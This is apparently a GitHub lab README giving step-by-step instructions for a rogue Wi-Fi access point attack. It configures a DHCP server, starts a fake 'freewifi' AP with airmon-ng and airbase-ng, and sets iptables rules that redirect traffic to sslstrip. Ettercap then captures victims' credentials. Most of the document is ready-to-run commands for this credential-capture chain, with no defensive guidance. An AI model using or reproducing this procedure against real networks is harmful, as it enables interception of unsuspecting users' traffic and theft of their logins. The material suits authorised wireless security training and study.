 # Rogue Access Point Attack

## Attack High Level Overview:
1. Victim connects to fake AP.
2. Victim connects to the internet via the fake AP.
3. Using sslstrip and Ettercap to capture credentials.
4. The fake AP forwards the victim to the legitimate website.

## How to Create the Attack:
1. Setup adapter and bridge network.
2. Create a DHCP server and configure settings.
3. Using airmon-ng to monitor network.
4. Use airbase-ng to start your rogue access point.
5. Modify airbase tunnel to gain internet connection.
6. Start sslstrip and Ettercap.

### Task 0 – Setup Adapter and Bridge Network
Connect the wireless adapter to your device and make sure to bridge your internet to the adapter.  
**VM Network Setting:** Bridged (autodetect)

**Troubleshooting Alfa AWUS036NHA in Windows 10/11**  
Download this link to be used as manual driver:  
[Alfa AWUS036NHA Driver](https://rokland.com/mask/drivers/awus036nha/Alfa-AWUS036NHA-Win10.zip)

### Task 1 – Create DHCP Server and Configure Settings
Make note of your gateway IP and the adapter interface.

![image](https://github.com/alduralmknoon/Rouge-Access-Point-Attack-Lab/assets/27437815/e0c7dd18-a2e8-48e6-8c22-721726840139)

![image](https://github.com/alduralmknoon/Rouge-Access-Point-Attack-Lab/assets/27437815/9b7dd808-7d3e-4ba9-9ca3-38d45f6874c3)

Run the command below to install the DHCP server package, which was formerly known as dhcp3-server:
```bash
sudo apt install isc-dhcp-server
```
Now, open and modify the main configuration file, define your DHCP server options:
```bash
sudo vi /etc/dhcp/dhcpd.conf
```

Make the following changes:

    authoritative;
    default-lease-time 600;
    max-lease-time 7200;
    subnet 192.168.1.0 netmask 255.255.255.0 {
      option routers 192.168.1.1;
      option subnet-mask 255.255.255.0;
      option domain-name 'wifiname';
      option domain-name-server 192.168.1.1;
      range 192.168.1.2 192.168.1.40;
    }

![image](https://github.com/alduralmknoon/Rouge-Access-Point-Attack-Lab/assets/27437815/155343da-b965-49fe-be41-ef8562e35e28)

### Task 2 – Using airmon-ng to Monitor Network
```bash 
sudo airmon-ng
```
![image](https://github.com/alduralmknoon/Rouge-Access-Point-Attack-Lab/assets/27437815/3cbe6c92-f446-4922-bd6c-b05b2fc8f49b)

```bash 
sudo airmon-ng start <interface>
```
![image](https://github.com/alduralmknoon/Rouge-Access-Point-Attack-Lab/assets/27437815/3f272a6a-2ad8-4d5c-befa-497ea1edae2e)

### Task 3 – Use airbase-ng to Start Your Rogue Access Point

```bash 
sudo airbase-ng -c 11 -e freewifi <mon interface>
```
![image](https://github.com/alduralmknoon/Rouge-Access-Point-Attack-Lab/assets/27437815/a185f47a-4f74-4063-a78d-04a3f9ee078e)

![image](https://github.com/alduralmknoon/Rouge-Access-Point-Attack-Lab/assets/27437815/2583ea9d-7e7f-4cc5-947a-ea5ec33227d1)

Now that we have our AP up and running, we will make some changes to the tunnel interface created by airbase-ng.

**Keep the airbase-ng terminal running and continue the following tasks in new terminals.**

Run the following commands in a new terminal:
```bash
ifconfig at0 192.168.1.1 netmask 255.255.255.0
ifconfig at0 mtu 1400
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
echo 1 > /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -p udp -j DNAT --to 192.168.0.1
iptables -P FORWARD ACCEPT
iptables --append FORWARD --in-interface at0 -j ACCEPT
iptables --table nat --append POSTROUTING --out-interface eth0 -j MASQUERADE
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 10000
dhcpd -cf /etc/dhcpd.conf -pf /var/run/dhcpd.pid at0
/etc/init.d/isc-dhcp-server start
```

**What’s happening here?**  
In the second command, we are adjusting the maximum transmission unit (MTU), which allows our AP to transfer larger packets and thus prevent any packet fragmentation due to low transmission units available. Then, we are adding a routing table. Next, we create IP forwarding to ensure the AP clients have internet connections. We do that by adding IP forwarding rules. We start by echoing into the `ip_forward` file and then write all the rules as illustrated in the commands.  
_The highlighted value is the gateway address for our host machine._  
Finally, we start our DHCP server.  
**You will need to be root or use sudo to run all commands.**

### Task 4 – Start sslstrip and Ettercap

Run the following commands:
```bash
sslstrip -f -p -k 10000
```
_Keep this terminal open and open another terminal for Ettercap._

In the new terminal, run the following command to start Ettercap:
```bash
ettercap -p -u -T -q -i at0
```

_Keep this terminal open._

### Task 5 – Start Capturing Credentials

You will see the victim's activity and credentials on the Ettercap terminal.

To view what sslstrip captured, run:
```bash
cat sslstrip.log
```

_Note:_ sslstrip and ettercap commands might be outdated. 


## Resources:
[Install DHCP Server in Ubuntu/Debian](https://www.tecmint.com/install-dhcp-server-in-ubuntu-debian/)
[YouTube Video on Creating Rogue AP](https://www.youtube.com/watch?v=HePt2J4uSno&list=LL&index=1&t=644s&pp=gAQBiAQB8AUB)
